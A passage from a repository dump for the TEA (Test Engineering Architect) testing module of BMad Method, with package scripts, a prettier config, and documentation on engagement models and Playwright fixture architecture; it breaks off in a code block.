    "release:major": "gh workflow run manual-release.yaml -f version_bump=major",
    "release:minor": "gh workflow run manual-release.yaml -f version_bump=minor",
    "release:patch": "gh workflow run manual-release.yaml -f version_bump=patch",
    "test": "npm run test:schemas && npm run test:install && npm run test:knowledge && npm run test:tea-workflow-descriptions && npm run validate:schemas && npm run lint && npm run lint:md && npm run format:check",
    "test:coverage": "c8 npm test",
    "test:install": "node test/test-installation-components.js",
    "test:knowledge": "node test/test-knowledge-base.js",
    "test:schemas": "node test/test-agent-schema.js",
    "test:tea-workflow-descriptions": "node tools/validate-tea-workflow-descriptions.js",
    "validate:schemas": "node tools/validate-agent-schema.js",
    "validate:tea-workflow-descriptions": "node tools/validate-tea-workflow-descriptions.js"
  },
  "lint-staged": {
    "*.{js,cjs,mjs}": [
      "eslint --fix",
      "prettier --write --ignore-unknown"
    ],
    "*.yaml": [
      "eslint --fix",
      "prettier --write --ignore-unknown"
    ],
    "*.json": [
      "prettier --write --ignore-unknown"
    ],
    "*.md": [
      "markdownlint-cli2 --fix",
      "prettier --write --ignore-unknown"
    ]
  },
  "c8": {
    "all": true,
    "reporter": [
      "text",
      "html"
    ],
    "reports-dir": "coverage"
  },
  "dependencies": {
    "@clack/prompts": "^0.11.0",
    "boxen": "^5.1.2",
    "cli-table3": "^0.6.5",
    "commander": "^14.0.0",
    "csv-parse": "^6.1.0",
    "glob": "^11.0.3",
    "ignore": "^7.0.5",
    "js-yaml": "^4.1.0",
    "ora": "^5.4.1",
    "semver": "^7.6.3",
    "wrap-ansi": "^7.0.0",
    "xml2js": "^0.6.2",
    "yaml": "^2.7.0"
  },
  "devDependencies": {
    "@astrojs/sitemap": "^3.6.0",
    "@astrojs/starlight": "^0.37.0",
    "@eslint/js": "^9.33.0",
    "archiver": "^7.0.1",
    "astro": "^5.16.0",
    "c8": "^10.1.3",
    "eslint": "^9.33.0",
    "eslint-config-prettier": "^10.1.8",
    "eslint-plugin-n": "^17.21.3",
    "eslint-plugin-unicorn": "^60.0.0",
    "eslint-plugin-yml": "^1.18.0",
    "husky": "^9.1.7",
    "jest": "^30.0.4",
    "lint-staged": "^16.1.1",
    "markdownlint-cli2": "^0.19.1",
    "prettier": "^3.7.4",
    "prettier-plugin-packagejson": "^2.5.19",
    "sharp": "^0.33.5",
    "yaml-eslint-parser": "^1.2.3",
    "yaml-lint": "^1.7.0"
  },
  "engines": {
    "node": ">=20.0.0"
  },
  "publishConfig": {
    "access": "public"
  }
}
```

## File: `prettier.config.mjs`
```
export default {
  $schema: 'https://json.schemastore.org/prettierrc',
  printWidth: 140,
  tabWidth: 2,
  useTabs: false,
  semi: true,
  singleQuote: true,
  trailingComma: 'all',
  bracketSpacing: true,
  arrowParens: 'always',
  endOfLine: 'lf',
  proseWrap: 'preserve',
  overrides: [
    {
      files: ['*.md'],
      options: { proseWrap: 'preserve' },
    },
    {
      files: ['*.yaml'],
      options: { singleQuote: false },
    },
    {
      files: ['*.json', '*.jsonc'],
      options: { singleQuote: false },
    },
    {
      files: ['*.cjs'],
      options: { parser: 'babel' },
    },
  ],
  plugins: ['prettier-plugin-packagejson'],
};
```

## File: `brain/knowledge/docs_legacy/404.md`
```markdown
---
title: Page Not Found
description: The page you're looking for doesn't exist
template: splash
---

# Page Not Found

The page you're looking for doesn't exist.

## What can you do?

- Check the URL for typos
- Go back to the [home page](/)
- Browse the [documentation](/tutorials/tea-lite-quickstart)
- Search for what you need using the search bar above

## Need Help?

If you think this page should exist, please [open an issue](https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/issues) on GitHub.
```

## File: `brain/knowledge/docs_legacy/index.md`
```markdown
---
title: Test Architect (TEA)
description: Risk-based testing workflows, automation guidance, and release gates for BMad Method
template: splash
hero:
  title: Test Architect (TEA)
  tagline: Risk-based testing workflows, automation guidance, and release gates for BMad Method
  actions:
    - text: Tutorial
      link: https://bmad-code-org.github.io/bmad-method-test-architecture-enterprise/tutorials/tea-lite-quickstart/
      icon: right-arrow
      variant: primary
    - text: View on GitHub
      link: https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise
      icon: external
---

## What is TEA?

TEA (Test Engineering Architect) is a BMAD module for testing strategy and automation. It provides nine workflows covering learning, setup, design, automation, review, and release gates.

- **Workflow‑Driven**: Multiple workflows covering covering day to day activities of a test architect.
- **Consistent Outputs**: Knowledge-base guidance keeps standards consistent, no matter the agent being used.
- **Risk‑Based**: P0–P3 prioritization from probability × impact.
- **Release Gates**: Evidence‑backed go/no‑go decisions with traceability.

## Quick Install

```bash
npx bmad-method install
# Select: Test Architect (TEA)
```

Then trigger workflows via chat:

```
bmad-tea    # Load TEA agent/menu
test-design # Run Test Design workflow
```

## Getting Started

Pick a path:

- **New to Testing?** Start with [TEA Academy](/tutorials/learn-testing-tea-academy) - Learn testing from fundamentals to advanced practices (7 sessions, 1-2 weeks)
- **TEA Lite**: Start with [Test Automation](/how-to/workflows/run-automate) only (30 minutes)
- **Full TEA**: Start with the [TEA Overview](/explanation/tea-overview) for the complete workflow map
- **Enterprise**: Choose [Greenfield](/how-to/brownfield/use-tea-for-enterprise) or [Brownfield](/how-to/brownfield/use-tea-with-existing-tests)
- **Custom Extensions**: See [Extend TEA with Custom Workflows](/how-to/customization/extend-tea-with-custom-workflows)

## Core Workflows

| Workflow                                                  | Trigger | Purpose                                |
| --------------------------------------------------------- | ------- | -------------------------------------- |
| [Teach Me Testing](/how-to/workflows/teach-me-testing)    | TMT     | Learn testing (7 sessions, 1-2 weeks)  |
| [Framework Setup](/how-to/workflows/setup-test-framework) | TF      | Scaffold test framework                |
| [CI/CD Integration](/how-to/workflows/setup-ci)           | CI      | Set up quality pipeline                |
| [Test Design](/how-to/workflows/run-test-design)          | TD      | Risk-based test planning               |
| [ATDD](/how-to/workflows/run-atdd)                        | AT      | Failing acceptance tests (TDD)         |
| [Test Automation](/how-to/workflows/run-automate)         | TA      | Expand automation coverage             |
| [Test Review](/how-to/workflows/run-test-review)          | RV      | Quality audit with scoring             |
| [Requirements Tracing](/how-to/workflows/run-trace)       | TR      | Coverage mapping + gate decision       |
| [NFR Assessment](/how-to/workflows/run-nfr-assess)        | NR      | Non-functional requirements evaluation |

## Documentation Structure

- **[Tutorial](/tutorials/tea-lite-quickstart/)**: Learn TEA step-by-step
- **[How-To Guides](/how-to/workflows/run-test-design)**: Task-focused instructions
- **[Explanation](/explanation/testing-as-engineering/)**: Understand concepts and architecture
- **[Reference](/reference/commands)**: Commands, configuration, knowledge base
- **[Glossary](/glossary)**: Terminology and definitions

## Support

- **Issues**: [GitHub Issues](https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/issues)
```

## File: `brain/knowledge/docs_legacy/explanation/engagement-models.md`
```markdown
---
title: 'TEA Engagement Models Explained'
description: Understanding the five ways to use TEA - from standalone to full BMad Method integration
---

# TEA Engagement Models Explained

TEA is optional and flexible. There are five valid ways to engage with TEA - choose intentionally based on your project needs and methodology.

## Overview

**TEA is not mandatory.** Pick the engagement model that fits your context:

1. **No TEA** - Skip all TEA workflows, use existing testing approach
2. **TEA Solo** - Use TEA standalone without BMad Method
3. **TEA Lite** - Beginner approach using just `automate`
4. **TEA Integrated (Greenfield)** - Full BMad Method integration from scratch
5. **TEA Integrated (Brownfield)** - Full BMad Method integration with existing code

## The Problem

### One-Size-Fits-All Doesn't Work

**Traditional testing tools force one approach:**

- Must use entire framework
- All-or-nothing adoption
- No flexibility for different project types
- Teams abandon tool if it doesn't fit

**TEA recognizes:**

- Different projects have different needs
- Different teams have different maturity levels
- Different contexts require different approaches
- Flexibility increases adoption

## The Five Engagement Models

### Model 1: No TEA

**What:** Skip all TEA workflows, use your existing testing approach.

**When to Use:**

- Team has established testing practices
- Quality is already high
- Testing tools already in place
- TEA doesn't add value

**What You Miss:**

- Risk-based test planning
- Systematic quality review
- Gate decisions with evidence
- Knowledge base patterns

**What You Keep:**

- Full control
- Existing tools
- Team expertise
- No learning curve

**Example:**

```
Your team:
- 10-year veteran QA team
- Established testing practices
- High-quality test suite
- No problems to solve

Decision: Skip TEA, keep what works
```

**Verdict:** Valid choice if existing approach works.

---

### Model 2: TEA Solo

**What:** Use TEA workflows standalone without full BMad Method integration.

**When to Use:**

- Non-BMad projects
- Want TEA's quality operating model only
- Don't need full planning workflow
- Bring your own requirements

**Typical Sequence:**

```
1. `test-design` (system or epic)
2. `atdd` or `automate`
3. `test-review` (optional)
4. `trace` (coverage + gate decision)
```

**You Bring:**

- Requirements (user stories, acceptance criteria)
- Development environment
- Project context

**TEA Provides:**

- Risk-based test planning (`test-design`)
- Test generation (`atdd`, `automate`)
- Quality review (`test-review`)
- Coverage traceability (`trace`)

**Optional:**

- Framework setup (`framework`) if needed
- CI configuration (`ci`) if needed

**Example:**

```
Your project:
- Using Scrum (not BMad Method)
- Jira for story management
- Need better test strategy

Workflow:
1. Export stories from Jira
2. Run `test-design` on epic
3. Run `atdd` for each story
4. Implement features
5. Run `trace` for coverage
```

**Verdict:** Best for teams wanting TEA benefits without BMad Method commitment.

---

### Model 3: TEA Lite

**What:** Beginner approach using just `automate` to test existing features.

**When to Use:**

- Learning TEA fundamentals
- Want quick results
- Testing existing application
- No time for full methodology

**Workflow:**

```
1. `framework` (setup test infrastructure)
2. `test-design` (optional, risk assessment)
3. `automate` (generate tests for existing features)
4. Run tests (they pass immediately)
```

**Example:**

```
Beginner developer:
- Never used TEA before
- Want to add tests to existing app
- 30 minutes available

Steps:
1. Run `framework`
2. Run `automate` on TodoMVC demo
3. Tests generated and passing
4. Learn TEA basics
```

**What You Get:**

- Working test framework
- Passing tests for existing features
- Learning experience
- Foundation to expand

**What You Miss:**

- TDD workflow (ATDD)
- Risk-based planning (test-design depth)
- Quality gates (trace Phase 2)
- Full TEA capabilities

**Verdict:** Perfect entry point for beginners.

---

### Model 4: TEA Integrated (Greenfield)

**What:** Full BMad Method integration with TEA workflows across all phases.

**When to Use:**

- New projects starting from scratch
- Using BMad Method or Enterprise track
- Want complete quality operating model
- Testing is critical to success

**Lifecycle:**

**Phase 2: Planning**

- PM creates PRD with NFRs
- (Optional) TEA runs `nfr-assess` (Enterprise only)

**Phase 3: Solutioning**

- Architect creates architecture
- TEA runs `test-design` (system-level) → testability review
- TEA runs `framework` → test infrastructure
- TEA runs `ci` → CI/CD pipeline
- Architect runs `implementation-readiness` (fed by test design)

**Phase 4: Implementation (Per Epic)**

- SM runs `sprint-planning`
- TEA runs `test-design` (epic-level) → risk assessment for THIS epic
- SM creates stories
- (Optional) TEA runs `atdd` → failing tests before dev
- DEV implements story
- TEA runs `automate` → expand coverage
- (Optional) TEA runs `test-review` → quality audit
- TEA runs `trace` Phase 1 → refresh coverage

**Release Gate:**

- (Optional) TEA runs `test-review` → final audit
- (Optional) TEA runs `nfr-assess` → validate NFRs
- TEA runs `trace` Phase 2 → gate decision (PASS/CONCERNS/FAIL/WAIVED)

**What You Get:**

- Complete quality operating model
- Systematic test planning
- Risk-based prioritization
- Evidence-based gate decisions
- Consistent patterns across epics

**Example:**

```
New SaaS product:
- 50 stories across 8 epics
- Security critical
- Need quality gates

Workflow:
- Phase 2: Define NFRs in PRD
- Phase 3: Architecture → test design → framework → CI
- Phase 4: Per epic: test design → ATDD → dev → automate → review → trace
- Gate: NFR assess → trace Phase 2 → decision
```

**Verdict:** Most comprehensive TEA usage, best for structured teams.

---

### Model 5: TEA Integrated (Brownfield)

**What:** Full BMad Method integration with TEA for existing codebases.

**When to Use:**

- Existing codebase with legacy tests
- Want to improve test quality incrementally
- Adding features to existing application
- Need to establish coverage baseline

**Differences from Greenfield:**

**Phase 0: Documentation (if needed)**

```
- Run `document-project`
- Create baseline documentation
```

**Phase 2: Planning**

```
- TEA runs `trace` Phase 1 → establish coverage baseline
- PM creates PRD (with existing system context)
```

**Phase 3: Solutioning**

```
- Architect creates architecture (with brownfield constraints)
- TEA runs `test-design` (system-level) → testability review
- TEA runs `framework` (only if modernizing test infra)
- TEA runs `ci` (update existing CI or create new)
```

**Phase 4: Implementation**

```
- TEA runs `test-design` (epic-level) → focus on REGRESSION HOTSPOTS
- Per story: ATDD → dev → automate
- TEA runs `test-review` → improve legacy test quality
- TEA runs `trace` Phase 1 → track coverage improvement
```

**Brownfield-Specific:**

- Baseline coverage BEFORE planning
- Focus on regression hotspots (bug-prone areas)
- Incremental quality improvement
- Compare coverage to baseline (trending up?)

**Example:**

```
Legacy e-commerce platform:
- 200 existing tests (30% passing, 70% flaky)
- Adding new checkout flow
- Want to improve quality

Workflow:
1. Phase 2: `trace` baseline → 30% coverage
2. Phase 3: `test-design` → identify regression risks
3. Phase 4: Fix top 20 flaky tests + add tests for new checkout
4. Gate: `trace` → 60% coverage (2x improvement)
```

**Verdict:** Best for incrementally improving legacy systems.

---

## Decision Guide: Which Model?

### Quick Decision Tree



**Decision Path Examples:**

- Learning TEA → TEA Lite (blue)
- Non-BMad project → TEA Solo (purple)
- BMad + new project + compliance → Enterprise (purple)
- BMad + existing code → Brownfield (yellow)
- Don't want TEA → No TEA (gray)

### By Project Type

| Project Type                    | Recommended Model           | Why                                         |
| ------------------------------- | --------------------------- | ------------------------------------------- |
| **New SaaS product**            | TEA Integrated (Greenfield) | Full quality operating model from day one   |
| **Existing app + new feature**  | TEA Integrated (Brownfield) | Improve incrementally while adding features |
| **Bug fix**                     | TEA Lite or No TEA          | Quick flow, minimal overhead                |
| **Learning project**            | TEA Lite                    | Learn basics with immediate results         |
| **Non-BMad enterprise**         | TEA Solo                    | Quality model without full methodology      |
| **High-quality existing tests** | No TEA                      | Keep what works                             |

### By Team Maturity

| Team Maturity    | Recommended Model        | Why                              |
| ---------------- | ------------------------ | -------------------------------- |
| **Beginners**    | TEA Lite → TEA Solo      | Learn basics, then expand        |
| **Intermediate** | TEA Solo or Integrated   | Depends on methodology           |
| **Advanced**     | TEA Integrated or No TEA | Full model or existing expertise |

### By Compliance Needs

| Compliance                 | Recommended Model           | Why                           |
| -------------------------- | --------------------------- | ----------------------------- |
| **None**                   | Any model                   | Choose based on project needs |
| **Light** (internal audit) | TEA Solo or Integrated      | Gate decisions helpful        |
| **Heavy** (SOC 2, HIPAA)   | TEA Integrated (Enterprise) | NFR assessment mandatory      |

## Switching Between Models

### Can Change Models Mid-Project

**Scenario:** Start with TEA Lite, expand to TEA Solo

```
Week 1: TEA Lite
- Run `framework`
- Run `automate`
- Learn basics

Week 2: Expand to TEA Solo
- Add `test-design`
- Use `atdd` for new features
- Add `test-review`

Week 3: Continue expanding
- Add `trace` for coverage
- Setup `ci`
- Full TEA Solo workflow
```

**Benefit:** Start small, expand as comfortable.

### Can Mix Models

**Scenario:** TEA Integrated for main features, No TEA for bug fixes

```
Main features (epics):
- Use full TEA workflow
- Risk assessment, ATDD, quality gates

Bug fixes:
- Skip TEA
- Quick Flow + manual testing
- Move fast

Result: TEA where it adds value, skip where it doesn't
```

**Benefit:** Flexible, pragmatic, not dogmatic.

## Comparison Table

| Aspect                | No TEA  | TEA Lite  | TEA Solo   | Integrated (Green) | Integrated (Brown) |
| --------------------- | ------- | --------- | ---------- | ------------------ | ------------------ |
| **BMad Required**     | No      | No        | No         | Yes                | Yes                |
| **Learning Curve**    | None    | Low       | Medium     | High               | High               |
| **Setup Time**        | 0       | 30 min    | 2 hours    | 1 day              | 2 days             |
| **Workflows Used**    | 0       | 2-3       | 4-6        | 8                  | 8                  |
| **Test Planning**     | Manual  | Optional  | Yes        | Systematic         | + Regression focus |
| **Quality Gates**     | No      | No        | Optional   | Yes                | Yes + baseline     |
| **NFR Assessment**    | No      | No        | No         | Optional           | Recommended        |
| **Coverage Tracking** | Manual  | No        | Optional   | Yes                | Yes + trending     |
| **Best For**          | Experts | Beginners | Standalone | New projects       | Legacy code        |

## Real-World Examples

### Example 1: Startup (TEA Lite → TEA Integrated)

**Month 1:** TEA Lite

```
Team: 3 developers, no QA
Testing: Manual only
Decision: Start with TEA Lite

Result:
- Run `framework` (Playwright setup)
- Run `automate` (20 tests generated)
- Learning TEA basics
```

**Month 3:** TEA Solo

```
Team: Growing to 5 developers
Testing: Automated tests exist
Decision: Expand to TEA Solo

Result:
- Add `test-design` (risk assessment)
- Add `atdd` (TDD workflow)
- Add `test-review` (quality audits)
```

**Month 6:** TEA Integrated

```
Team: 8 developers, 1 QA
Testing: Critical to business
Decision: Full BMad Method + TEA Integrated

Result:
- Full lifecycle integration
- Quality gates before releases
- NFR assessment for enterprise customers
```

### Example 2: Enterprise (TEA Integrated - Brownfield)

**Project:** Legacy banking application

**Challenge:**

- 500 existing tests (50% flaky)
- Adding new features
- SOC 2 compliance required

**Model:** TEA Integrated (Brownfield)

**Phase 2:**

```
- `trace` baseline → 45% coverage (lots of gaps)
- Document current state
```

**Phase 3:**

```
- `test-design` (system) → identify regression hotspots
- `framework` → modernize test infrastructure
- `ci` → add selective testing
```

**Phase 4:**

```
Per epic:
- `test-design` → focus on regression + new features
- Fix top 10 flaky tests
- `atdd` for new features
- `automate` for coverage expansion
- `test-review` → track quality improvement
- `trace` → compare to baseline
```

**Result after 6 months:**

- Coverage: 45% → 85%
- Quality score: 52 → 82
- Flakiness: 50% → 2%
- SOC 2 compliant (traceability + NFR evidence)

### Example 3: Consultancy (TEA Solo)

**Context:** Testing consultancy working with multiple clients

**Challenge:**

- Different clients use different methodologies
- Need consistent testing approach
- Not always using BMad Method

**Model:** TEA Solo (bring to any client project)

**Workflow:**

```
Client project 1 (Scrum):
- Import Jira stories
- Run `test-design`
- Generate tests with `atdd`/`automate`
- Deliver quality report with `test-review`

Client project 2 (Kanban):
- Import requirements from Notion
- Same TEA workflow
- Consistent quality across clients

Client project 3 (Ad-hoc):
- Document requirements manually
- Same TEA workflow
- Same patterns, different context
```

**Benefit:** Consistent testing approach regardless of client methodology.

## Choosing Your Model

### Start Here Questions

**Question 1:** Are you using BMad Method?

- **No** → TEA Solo or TEA Lite or No TEA
- **Yes** → TEA Integrated or No TEA

**Question 2:** Is this a new project?

- **Yes** → TEA Integrated (Greenfield) or TEA Lite
- **No** → TEA Integrated (Brownfield) or TEA Solo

**Question 3:** What's your testing maturity?

- **Beginner** → TEA Lite
- **Intermediate** → TEA Solo or Integrated
- **Advanced** → TEA Integrated or No TEA (already expert)

**Question 4:** Do you need compliance/quality gates?

- **Yes** → TEA Integrated (Enterprise)
- **No** → Any model

**Question 5:** How much time can you invest?

- **30 minutes** → TEA Lite
- **Few hours** → TEA Solo
- **Multiple days** → TEA Integrated

### Recommendation Matrix

| Your Context                | Recommended Model           | Alternative                 |
| --------------------------- | --------------------------- | --------------------------- |
| BMad Method + new project   | TEA Integrated (Greenfield) | TEA Lite (learning)         |
| BMad Method + existing code | TEA Integrated (Brownfield) | TEA Solo                    |
| Non-BMad + need quality     | TEA Solo                    | TEA Lite                    |
| Just learning testing       | TEA Lite                    | No TEA (learn basics first) |
| Enterprise + compliance     | TEA Integrated (Enterprise) | TEA Solo                    |
| Established QA team         | No TEA                      | TEA Solo (supplement)       |

## Transitioning Between Models

### TEA Lite → TEA Solo

**When:** Outgrow beginner approach, need more workflows.

**Steps:**

1. Continue using `framework` and `automate`
2. Add `test-design` for planning
3. Add `atdd` for TDD workflow
4. Add `test-review` for quality audits
5. Add `trace` for coverage tracking

**Timeline:** 2-4 weeks of gradual expansion

### TEA Solo → TEA Integrated

**When:** Adopt BMad Method, want full integration.

**Steps:**

1. Install BMad Method (see installation guide)
2. Run planning workflows (PRD, architecture)
3. Integrate TEA into Phase 3 (system-level test design)
4. Follow integrated lifecycle (per epic workflows)
5. Add release gates (trace Phase 2)

**Timeline:** 1-2 sprints of transition

### TEA Integrated → TEA Solo

**When:** Moving away from BMad Method, keep TEA.

**Steps:**

1. Export BMad artifacts (PRD, architecture, stories)
2. Continue using TEA workflows standalone
3. Skip BMad-specific integration
4. Bring your own requirements to TEA

**Timeline:** Immediate (just skip BMad workflows)

## Common Patterns

### Pattern 1: TEA Lite for Learning, Then Choose

```
Phase 1 (Week 1-2): TEA Lite
- Learn with `automate` on demo app
- Understand TEA fundamentals
- Low commitment

Phase 2 (Week 3-4): Evaluate
- Try `test-design` (planning)
- Try `atdd` (TDD)
- See if value justifies investment

Phase 3 (Month 2+): Decide
- Valuable → Expand to TEA Solo or Integrated
- Not valuable → Stay with TEA Lite or No TEA
```

### Pattern 2: TEA Solo for Quality, Skip Full Method

```
Team decision:
- Don't want full BMad Method (too heavyweight)
- Want systematic testing (TEA benefits)

Approach: TEA Solo only
- Use existing project management (Jira, Linear)
- Use TEA for testing only
- Get quality without methodology commitment
```

### Pattern 3: Integrated for Critical, Lite for Non-Critical

```
Critical features (payment, auth):
- Full TEA Integrated workflow
- Risk assessment, ATDD, quality gates
- High confidence required

Non-critical features (UI tweaks):
- TEA Lite or No TEA
- Quick tests, minimal overhead
- Move fast
```

## Technical Implementation

Each model uses different TEA workflows. See:

- [TEA Overview](/brain/knowledge/docs_legacy/explanation/tea-overview.md) - Model details
- [TEA Command Reference](../bmad_repo/commands.md) - Workflow reference
- [TEA Configuration](configuration.md) - Setup options

## Related Concepts

**Core TEA Concepts:**

- [Risk-Based Testing](/brain/knowledge/docs_legacy/explanation/risk-based-testing.md) - Risk assessment in different models
- [Test Quality Standards](/brain/knowledge/docs_legacy/explanation/test-quality-standards.md) - Quality across all models
- [Knowledge Base System](/brain/knowledge/docs_legacy/explanation/knowledge-base-system.md) - Consistent patterns across models

**Technical Patterns:**

- [Fixture Architecture](/brain/knowledge/docs_legacy/explanation/fixture-architecture.md) - Infrastructure in different models
- [Network-First Patterns](/brain/knowledge/docs_legacy/explanation/network-first-patterns.md) - Reliability in all models

**Overview:**

- [TEA Overview](/brain/knowledge/docs_legacy/explanation/tea-overview.md) - 5 engagement models with cheat sheets
- [Testing as Engineering](/brain/knowledge/docs_legacy/explanation/testing-as-engineering.md) - Design philosophy

## Practical Guides

**Getting Started:**

- [TEA Lite Quickstart Tutorial](/brain/knowledge/docs_legacy/tutorials/tea-lite-quickstart.md) - Model 3: TEA Lite

**Use-Case Guides:**

- [Using TEA with Existing Tests](/brain/knowledge/docs_legacy/how-to/brownfield/use-tea-with-existing-tests.md) - Model 5: Brownfield
- [Running TEA for Enterprise](/brain/knowledge/docs_legacy/how-to/brownfield/use-tea-for-enterprise.md) - Enterprise integration

**All Workflow Guides:**

- [How to Run Test Design](/brain/knowledge/docs_legacy/how-to/workflows/run-test-design.md) - Used in TEA Solo and Integrated
- [How to Run ATDD](/brain/knowledge/docs_legacy/how-to/workflows/run-atdd.md)
- [How to Run Automate](/brain/knowledge/docs_legacy/how-to/workflows/run-automate.md)
- [How to Run Test Review](/brain/knowledge/docs_legacy/how-to/workflows/run-test-review.md)
- [How to Run Trace](/brain/knowledge/docs_legacy/how-to/workflows/run-trace.md)

## Reference

- [TEA Command Reference](../bmad_repo/commands.md) - All workflows explained
- [TEA Configuration](configuration.md) - Config per model
- [Glossary](../INDEX.md#test-architect-tea-concepts) - TEA Lite, TEA Solo, TEA Integrated terms

---

Generated with [BMad Method](https://bmad-method.org) - TEA (Test Engineering Architect)
```

## File: `brain/knowledge/docs_legacy/explanation/fixture-architecture.md`
```markdown
---
title: 'Fixture Architecture Explained'
description: Understanding TEA's pure function → fixture → composition pattern for reusable test utilities
---

# Fixture Architecture Explained

Fixture architecture is TEA's pattern for building reusable, testable, and composable test utilities. The core principle: build pure functions first, wrap in framework fixtures second.

## Overview

**The Pattern:**

1. Write utility as pure function (unit-testable)
2. Wrap in framework fixture (Playwright, Cypress)
3. Compose fixtures with mergeTests (combine capabilities)
4. Package for reuse across projects

**Why this order?**

- Pure functions are easier to test
- Fixtures depend on framework (less portable)
- Composition happens at fixture level
- Reusability maximized

### Fixture Architecture Flow



**Benefits at Each Step:**

1. **Pure Function:** Testable, portable, reusable
2. **Fixture:** Framework integration, clean API
3. **Composition:** Combine capabilities, flexible
4. **Usage:** Simple imports, type-safe

## The Problem

### Framework-First Approach (Common Anti-Pattern)

```typescript
// ❌ Bad: Built as fixture from the start
export const test = base.extend({
  apiRequest: async ({ request }, use) => {
    await use(async (options) => {
      const response = await request.fetch(options.url, {
        method: options.method,
        data: options.data,
      });

      if (!response.ok()) {
        throw new Error(`API request failed: ${response.status()}`);
      }

      return response.json();
    });
  },
});
```

**Problems:**

- Cannot unit test (requires Playwright context)
- Tied to framework (not reusable in other tools)
- Hard to compose with other fixtures
- Difficult to mock for testing the utility itself

### Copy-Paste Utilities

```typescript
// test-1.spec.ts
test('test 1', async ({ request }) => {
  const response = await request.post('/api/users', { data: {...} });
  const body = await response.json();
  if (!response.ok()) throw new Error('Failed');
  // ... repeated in every test
});

// test-2.spec.ts
test('test 2', async ({ request }) => {
  const response = await request.post('/api/users', { data: {...} });
  const body = await response.json();
  if (!response.ok()) throw new Error('Failed');
  // ... same code repeated
});
```

**Problems:**

- Code duplication (violates DRY)
- Inconsistent error handling
- Hard to update (change 50 tests)
- No shared behavior

## The Solution: Three-Step Pattern

### Step 1: Pure Function

```typescript
// helpers/api-request.ts

/**
 * Make API request with automatic error handling
 * Pure function - no framework dependencies
 */
export async function apiRequest({
  request, // Passed in (dependency injection)
  method,
  url,
  data,
  headers = {},
}: ApiRequestParams): Promise<ApiResponse> {
  const response = await request.fetch(url, {
    method,
    data,
    headers,
  });

  if (!response.ok()) {
    throw new Error(`API request failed: ${response.status()}`);
  }

  return {
    status: response.status(),
    body: await response.json(),
  };
}

// ✅ Can unit test this function!
describe('apiRequest', () => {
  it('should throw on non-OK response', async () => {
    const mockRequest = {
      fetch: vi.fn().mockResolvedValue({ ok: () => false, status: () => 500 }),
    };

    await expect(
      apiRequest({
        request: mockRequest,
        method: 'GET',
        url: '/api/test',
      }),
    ).rejects.toThrow('API request failed: 500');
  });
});
```

**Benefits:**

- Unit testable (mock dependencies)
- Framework-agnostic (works with any HTTP client)
- Easy to reason about (pure function)
- Portable (can use in Node scripts, CLI tools)

### Step 2: Fixture Wrapper

```typescript
// fixtures/api-request.ts
import { test as base } from '@playwright/test';
import { apiRequest as apiRequestFn } from '../helpers/api-request';

/**
 * Playwright fixture wrapping the pure function
 */
export const test = base.extend<{ apiRequest: typeof apiRequestFn }>({
  apiRequest: async ({ request }, use) => {
    // Inject framework dependency (request)
    await use((params) => apiRequestFn({ request, ...params }));
  },
});

export { expect } from '@playwright/test';
```

**Benefits:**

- Fixture provides framework context (request)
- Pure function handles logic
- Clean separation of concerns
- Can swap frameworks (Cypress, etc.) by changing wrapper only

### Step 3: Composition with mergeTests

```typescript
// fixtures/index.ts
import { mergeTests } from '@playwright/test';
import { test as apiRequestTest } from './api-request';
import { test as authSessionTest } from './auth-session';
import { test as logTest } from './log';

/**
 * Compose all fixtures into one test
 */
export const test = mergeTests(apiRequestTest, authSessionTest, logTest);

export { expect } from '@playwright/test';
```

**Usage:**

```typescript
// tests/profile.spec.ts
import { test, expect } from '../support/fixtures';

test('should update profile', async ({ apiRequest, authToken, log }) => {
  log.info('Starting profile update test');

  // Use API request fixture (matches pure function signature)
  const { status, body } = await apiRequest({
    method: 'PATCH',
    url: '/api/profile',
    data: { name: 'New Name' },
    headers: { Authorization: `Bearer ${authToken}` },
  });

  expect(status).toBe(200);
  expect(body.name).toBe('New Name');

  log.info('Profile updated successfully');
});
```

**Note:** This example uses the vanilla pure function signature (`url`, `data`). Playwright Utils uses different parameter names (`path`, `body`). See [Integrate Playwright Utils](/brain/knowledge/docs_legacy/how-to/customization/integrate-playwright-utils.md) for the utilities API.

**Note:** `authToken` requires auth-session fixture setup with provider configuration. See [auth-session documentation](https://seontechnologies.github.io/playwright-utils/auth-session.html).

**Benefits:**

- Use multiple fixtures in one test
- No manual composition needed
- Type-safe (TypeScript knows all fixture types)
- Clean imports

## How It Works in TEA

### TEA Generates This Pattern

When you run `framework` with `tea_use_playwright_utils: true`:

**TEA scaffolds:**

```
tests/
├── support/
│   ├── helpers/           # Pure functions
│   │   ├── api-request.ts
│   │   └── auth-session.ts
│   └── fixtures/          # Framework wrappers
│       ├── api-request.ts
│       ├── auth-session.ts
│       └── index.ts       # Composition
└── e2e/
    └── example.spec.ts      # Uses composed fixtures
```

### TEA Reviews Against This Pattern

When you run `test-review`:

**TEA checks:**

- Are utilities pure functions? ✓
- Are fixtures minimal wrappers? ✓
- Is composition used? ✓
- Can utilities be unit tested? ✓

## Package Export Pattern

### Make Fixtures Reusable Across Projects

**Option 1: Build Your Own (Vanilla)**

```json
// package.json
{
  "name": "@company/test-utils",
  "exports": {
    "./api-request": "./fixtures/api-request.ts",
    "./auth-session": "./fixtures/auth-session.ts",
    "./log": "./fixtures/log.ts"
  }
}
```

**Usage:**

```typescript
import { test as apiTest } from '@company/test-utils/api-request';
import { test as authTest } from '@company/test-utils/auth-session';
import { mergeTests } from '@playwright/test';

export const test = mergeTests(apiTest, authTest);
```

**Option 2: Use Playwright Utils (Recommended)**

```bash
npm install -D @seontechnologies/playwright-utils
```

**Usage:**

```typescript
import { test as base } from '@playwright/test';
import { mergeTests } from '@playwright/test';
import { test as apiRequestFixture } from '@seontechnologies/playwright-utils/api-request/fixtures';
import { createAuthFixtures } from '@seontechnologies/playwright-utils/auth-session';

const authFixtureTest = base.extend(createAuthFixtures());
export const test = mergeTests(apiRequestFixture, authFixtureTest);
// Production-ready utilities, battle-tested!
```

**Note:** Auth-session requires provider configuration. See [auth-session setup guide](https://seontechnologies.github.io/playwright-utils/auth-session.html).

**Why Playwright Utils:**

- Already built, tested, and maintained
- Consistent patterns across projects
- 11 utilities available (API, auth, network, logging, files)
- Community support and documentation
- Regular updates and improvements

**When to Build Your Own:**

- Company-specific patterns
- Custom authentication systems
- Unique requirements not covered by utilities

## Comparison: Good vs Bad Patterns

### Anti-Pattern: God Fixture

```typescript
